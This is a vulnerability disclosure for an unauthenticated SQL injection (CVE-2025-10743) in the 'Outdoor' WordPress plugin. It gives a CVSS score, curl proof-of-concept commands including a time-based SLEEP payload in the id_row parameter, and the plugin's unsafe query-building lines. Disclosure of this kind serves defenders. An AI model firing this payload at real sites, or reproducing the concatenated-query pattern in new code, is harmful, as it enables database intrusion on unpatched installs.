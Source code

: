 # CVE-2025-10743: Unauthenticated SQLi in WordPress 'Outdoor' plugin
The Outdoor WordPress plugin contains an unauthenticated SQL injection vulnerability in the `actions.php` file. The vulnerability occurs in the edit action handler where user-supplied `POST` parameters are directly concatenated into SQL queries without proper sanitization. Specifically, the 'field' and 'value' parameters from `$_POST["field"]` and `$_POST["value"]` are inserted directly into UPDATE queries, allowing attackers to inject arbitrary SQL commands without authentication.

## CVSS v3.1 Score: 7.5 (High)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N

## Proof of Concept
1. Install latest version of WordPress 

2. Install 'Outdoor' plugin v1.3.2 via WordPress plugin browser, or via https://wordpress.org/plugins/outdoor (note, as of October 14, 2025 the plugin was closed by WordPress following the disclosure of this vulnerability) 

3. Populate SQL table (if empty on fresh install)
```
curl -X POST "http://[target-site]/wp-admin/admin.php?page=outdoor" -d "outd_add_media=1"
```

4. Execute Time-based SQL Injection
```
curl -X POST "http://[target-site]/wp-admin/admin.php?page=outdoor" -d "action_row=edit&field=outdoor_status&value=test&id_row=(SELECT SLEEP(5)) OR outdoor_id>=0"
```

## Vulnerable Code: 
```
/wp-content/plugins/outdoor/actions.php
Line 72: $wpdb->query("UPDATE $outd_table_name SET $outd_field = '$outd_value' WHERE outdoor_id = $outd_id");
Line 69: $wpdb->query("UPDATE $outd_table_name SET outdoor_order = outdoor_order + 1 WHERE outdoor_order >= $outd_value");
```

